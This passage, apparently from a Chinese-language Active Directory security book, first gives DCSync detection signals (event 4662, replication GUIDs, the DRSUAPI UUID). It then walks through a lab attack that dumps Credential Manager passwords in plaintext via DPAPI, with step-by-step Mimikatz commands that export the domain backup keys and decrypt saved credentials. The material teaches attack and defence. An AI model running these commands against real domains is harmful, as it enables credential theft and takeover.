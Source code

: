 +   **89e95b76-444d-4c62-991a-0facbeda640c** (**DS-Replication-Get-Changes-In-Filtered-Set**)

+   **1131f6aa-9c07-11d1-f79f-00c04fc2dcd2** (**DS-Replication-Get-Changes**)

然后，我们需要检查**帐户名称**的值是否为域控制器。如果不是，那么我们可以可靠地检测到 DCSync。即使 DCSync 在域控制器本地运行，事件 ID 4662 仍会出现在日志中。

另外，鉴于 DCSync 使用 RPC 协议，可以通过基于 DRSUAPI 的 UUID 在端点上使用 ETW 进行检测。将**DSRUAPI UUID**（**e3514235-4b06-11d1-ab04-00c04fc2dcd2**）和**OpNum 3**（**IDL_DRSGetNCChanges**）关联起来，将是恶意活动的良好指示器[33]。

# 通过 DPAPI 以明文方式转储用户凭据

让我们通过一个场景来进行说明。在遵循内部安全政策并经过安全意识培训后，用户开始使用 Windows 中的凭据管理器，而不再使用**password.txt**文件。凭据管理器是 Windows 内置的密码管理器，使用**数据保护 API**（**DPAPI**）。DPAPI 允许程序（如 Chrome 或 RDP）透明地存储敏感数据。数据存储在用户目录中，并通过从用户密码派生的密钥进行加密。我们的目标用户**khal.drogo**在其凭据管理器中存储了 SQL **系统管理员**（**SA**）帐户的凭据。攻击者已经获得了该用户的域管理员权限，并打算以明文形式提取 SA 密码。存在三种攻击场景：

+   获取**khal.drogo**的主密钥并进行解密

+   如果您具有本地管理员权限，则提取所有本地主密钥

+   使用**Domain Admins**组中的帐户提取所有备份主密钥

出于演示目的，我们选择了第三个路径。所有命令都在**daenerys.targaryen**帐户下运行（该帐户是“域管理员”组的成员）。

成功提取密码所需的步骤如下：

1.  定位凭据文件。文件被隐藏，并位于以下路径：

    ```
    dir /a:h C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\*
    ```

1.  使用 Mimikatz 的**dpapi::cred**命令和凭据文件的路径查找**guidMasterKey**值：

    ```
    mimikatz.exe "dpapi::cred /in:C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\value_from_step_1"
    ```

1.  从域控制器提取备份主密钥：

    ```
    mimikatz.exe "lsadump::backupkeys /system:meereen.essos.local /export"
    ```

1.  获取用户**khal.drogo**的主密钥：

    ```
    mimikatz.exe "dpapi::masterkey /in:"C:\Users\khal.drogo\AppData\Roaming\Microsoft\Protect\{USER_SID}\guidMasterKey_from_step_2" /pvk:private_keyfile_from_step_3.pvk
    ```

1.  解密保存的凭据：

    ```
    mimikatz.exe "dpapi::cred /in: C:\Users\khal.drogo\AppData\Local\Microsoft\Credentials\value_from_step_1 /masterkey:key_value_from_step_4"
    ```
